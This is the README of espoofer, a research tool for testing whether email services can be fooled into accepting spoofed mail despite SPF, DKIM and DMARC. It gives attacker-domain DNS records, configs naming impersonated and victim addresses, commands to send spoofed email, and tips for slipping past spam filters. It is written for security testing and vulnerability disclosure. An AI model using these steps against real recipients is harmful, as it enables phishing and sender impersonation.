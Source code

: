 # espoofer

*espoofer* is an open-source testing tool to bypass SPF, DKIM, and DMARC authentication in email systems. It helps mail server administrators and penetration testers to check whether the target email server and client are vulnerable to email spoofing attacks or can be abused to send spoofing emails.

<!-- ![Gmail spoofing demo](images/gmail-spoofing-demo.png "espoofer demo" )
 -->
<p align="center">
<kbd>
<img src="images/gmail-spoofing-demo.png" height="300">
</kbd>
<br>Figure 1. A case of our spoofing attacks on Gmail (Fixed, <a href="https://youtu.be/xuKZpT0rsd0">Demo video</a>)
</p>

## Why build this tool?

Email spoofing is a big threat to both individuals and organizations ([Yahoo breach](https://arstechnica.com/tech-policy/2017/03/fbi-hints-that-hack-of-semi-privileged-yahoo-employee-led-to-massive-breach/), [John podesta](https://www.cbsnews.com/news/the-phishing-email-that-hacked-the-account-of-john-podesta/)). To address this problem, modern email services and websites employ authentication protocols -- SPF, DKIM, and DMARC -- to prevent email forgery. 

Our latest research shows that the implementation of those protocols suffers a number of security issues, which can be exploited to bypass SPF/DKIM/DMARC protections. Figure 1 demonstrates one of our spoofing attacks to bypass DKIM and DMARC in Gmail. For more technical details, please see our [Black Hat USA 2020 talk](https://www.blackhat.com/us-20/briefings/schedule/#you-have-no-idea-who-sent-that-email--attacks-on-email-sender-authentication-19902) or [USENIX security 2020 paper](https://www.usenix.org/system/files/sec20fall_chen-jianjun_prepub_0.pdf). 

In this repo, we summarize all test cases we found and integrate them into this tool to help administrators and security-practitioners quickly identify and locate such security issues.

## Installation
- Download this tool
```
git clone https://github.com/chenjj/espoofer
```

- Install dependencies
```
sudo pip install -r requirements.txt
```
> *Python version: Python 3 (**3.7.x**).*

## Usage
espoofer has three work modes: *server* ('s', default mode), *client* ('c') and *manual* ('m'). In *server* mode, espoofer works like a mail server to test validation in receiving services. In *client* mode, espoofer works as an email client to test validation in sending services. *Manual* mode is used for debug purposes. 

<p align="center">
<img src="images/email-authentication-flow.png" ><br>
Figure 2. Three types of attackers and their work modes
</p>

#### Server mode
To run espoofer in server mode, you need to have: 1) an IP address (`1.2.3.4`), which port 25 is not blocked by the ISP, and 2) a domain (`attack.com`). 


1. Domain configuration

- Set DKIM public key for `attack.com`

```
selector._domainkey.attacker.com TXT  "v=DKIM1; k=rsa; t=y; p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDNjwdrmp/gcbKLaGQfRZk+LJ6XOWuQXkAOa/lI1En4t4sLuWiKiL6hACqMrsKQ8XfgqN76mmx4CHWn2VqVewFh7QTvshGLywWwrAJZdQ4KTlfR/2EwAlrItndijOfr2tpZRgP0nTY6saktkhQdwrk3U0SZmG7U8L9IPj7ZwPKGvQIDAQAB"
```

- Set SPF record for `attack.com`

```
_spf.attack.com TXT "v=spf1 ip4:1.2.3.4 ?all"
```

2. Configure the tool in config.py

```
config ={
	"attacker_site": b"attack.com", # attack.com
	"legitimate_site_address": b"admin@bank.com", # legitimate.com
	"victim_address": b"victim@victim.com", # victim@victim.com
	"case_id": b"server_a1", # server_a1
}
```

You can list find the case_id of all test cases using `-l` option:

```
python3 espoofer.py -l
```

3. Run the tool to send a spoofing email

```
python3 espoofer.py
```

You can change case_id in the config.py or use `-id` option in the command line to test different cases:

```
python3 espoofer.py -id server_a1
```

#### Client mode 

To run epsoofer in client mode, you need to have an account on the target email services. This attack exploits the failure of some email services to perform sufficient validation of emails received from local MUAs. For example, `attacker@gmail.com` tries to impersonate `admin@gmail.com`. 
1. Configure the tool in config.py

```
config ={
	"legitimate_site_address": b"admin@gmail.com",  
	"victim_address": b"victim@victim.com", 
	"case_id": b"client_a1",

	"client_mode": {
		"sending_server": ("smtp.gmail.com", 587),  # SMTP sending serve ip and port
		"username": b"attacker@gmail.com", # Your account username and password
		"password": b"your_passward_here",
	},
}
```

You can list find the case_id of all test cases using `-l` option:

```
python3 espoofer.py -l
```

> Note: `sending_server` should be the SMTP sending server address, not the receiving server address.


2. Run the tool to send a spoofing email

```
python3 espoofer.py -m c
```

You can change case_id in the config.py and run it again, or you can use `-id` option in the command line:

```
python3 espoofer.py -m c -id client_a1
```

#### Manual mode

Here is an example of manual mode:

```
python espoofer.py -m m -helo attack.com -mfrom <m@attack.com> -rcptto <victim@victim.com> -data raw_msg_here -ip 127.0.0.1 -port 25
```

## Bugs found with this tool

* Gmail.com DMARC bypass demo video, https://youtu.be/xuKZpT0rsd0
* Outlook.com DMARC bypass video, https://youtu.be/IsWgAEbPaK0
* Yahoo.com DMARC bypass video, https://youtu.be/DRepfStOruE
* Protonmail.com, DMARC bypass video, https://youtu.be/bh4_SoPniMA
* CVE-2020-12272, OpenDMARC bypass bug report, https://sourceforge.net/p/opendmarc/tickets/237/
* CVE-2019-20790, OpenDMARC and pypolicyd-spf bypass bug report, https://sourceforge.net/p/opendmarc/tickets/235/

Welcome to send a pull request to file your bug report here. 

## Q&A

1. How do I know if the email has bypassed DMARC authentication successfully? 

You can check it in the Authentication-results header in the raw message headers. If the header shows `dmarc=pass`, it means the email has passed the DMARC authentication.  You can check some demos video [here](https://www.youtube.com/playlist?list=PL--A-gWJV1dJ19SyhkzklMC3C8ra1kK5-).

2. Why do emails fail to send?

There are several possible reasons if you fail to send an email: 1) your ISP blocks outgoing emails to port 25 to prevent spam. In this case, you need to ask for permission from the ISP; 2) the IP address is in the spam list of the target email services. In many cases, you resolve the problem here, https://www.spamhaus.org/lookup/ ;  3) some email services check if there is a PTR record for the sending IP, you may also need to set the PTR record to bypass this check; 4) the email cannot pass the format validation of the target email service, you may want to try a different test case. 

3. Why the email goes to the spam folder? Any way to avoid this?

Currently, espoofer focuses on bypassing SPF/DKIM/DMARC authentication and doesn't aim for spam filter bypass. But you could try to use a reputable sending IP address, domain, and benign message content to bypass the spam filter.

4. Why I send an email successfully but the email didn't show up in either inbox or spam folder?

In our prior experiences, some email services filter suspicious emails silently.

## Credits

Welcome to add more test cases.

<!-- *This repo is created for the vendors to reproduce our reported issues, so this tool is not useable without additional instructions. We will update it after the affected vendors have fixed our reported bugs.*
 -->
